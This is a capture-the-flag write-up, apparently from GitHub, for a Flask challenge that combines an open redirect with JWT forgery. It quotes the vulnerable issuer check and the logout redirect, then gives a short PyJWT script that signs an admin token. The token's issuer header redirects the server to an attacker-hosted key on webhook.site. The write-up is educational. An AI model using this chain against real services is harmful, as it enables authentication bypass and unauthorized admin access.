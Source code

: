 ## Skills involved: Open Redirect + JWT Token Forgery

This challenge is very clear about what to do. I have read of the exploit some time ago but actually crafting one is super fun.

## Solution:

Upon visiting the site, we're greeted by this friendly message:

![image](https://user-images.githubusercontent.com/114584910/193477052-fa816151-8349-484e-b717-83e915c705c3.png)

*OK*. After pulling the source down I checked if there's any outdated packages - none.

I was not very familiar with the Python Flask framework but here's a summary:
- Anything, absolutely anything will be used in the `template.html` template due to `@app.after_request` (*remark: there is no SSTI*)
- There's a jwks.json file that gives a public key used by the server (*remark: it is not possible to crack it - I tried*)
- Accessing `/api/flag` as admin will give us the flag right away. (*remark: this can be confirmed by removing the authorize code*)

The *key* here is that we can *CHOOSE* our host for the jwks.json:

```py
valid_issuer_domain = os.getenv("HOST")
valid_algo = "RS256"
def get_public_key_url(token):
    is_valid_issuer = lambda issuer: urlparse(issuer).netloc == valid_issuer_domain

    header = jwt.get_unverified_header(token)
    if "issuer" not in header:
        raise Exception("issuer not found in JWT header")
    token_issuer = header["issuer"]

    if not is_valid_issuer(token_issuer):
        raise Exception(
            "Invalid issuer netloc: {issuer}. Should be: {valid_issuer}".format(
                issuer=urlparse(token_issuer).netloc, valid_issuer=valid_issuer_domain
            )
        )

    pubkey_url = "{host}/.well-known/jwks.json".format(host=token_issuer)
    return pubkey_url
```

While the domain is whitelisted and a proper URL check is done (as opposed to `/^http://localhost:8080/`), there's another **open-redirect vulnerability**. Namely we can redirect the server to our own domain, bypassing the whitelist:

```py
@app.route("/logout")
def logout():
    session.clear()
    redirect_uri = request.args.get('redirect', url_for('home'))
    return redirect(redirect_uri)
```

This is basically a challenge based on https://www.invicti.com/blog/web-security/json-web-token-jwt-attacks-vulnerabilities/, which included this exact exploitation path.

Now comes the technical part:
- For crafting the public/private key pair:
  - I referenced:
    - https://blog.digital-craftsman.de/generate-a-new-jwt-public-and-private-key/
    - https://www.misterpki.com/openssl-genrsa/
  - Being a self-proclaimed RSA expert, I used openssl to do the work.
- For hosting the key:
  - I once had immense difficulty on this when another challenge from somewhere else asked me to host an HTML file for CSRF.
  - Thanks to this challenge I realized that we all have a very powerful tool that we all already know: https://webhook.site
  - *Yes, we can change the default return message, status code and content type with webhook.site*
  - Remark: care needed to be taken to create the correct data structure, remove leading and trailing content, etc
- For generating signed JWT:
  - I used the PyJWT package, but using https://jwt.io is equally fine:

```py
import jwt

private_key = open("private.pem").read().strip()
public_key = open("public.pem").read().strip()

encoded=jwt.encode({"user":"admin"}, private_key, algorithm="RS256",
headers={"issuer":"http://localhost:8080/logout?redirect=https://webhook.site/..."})
```

The flag should come to you in no time.
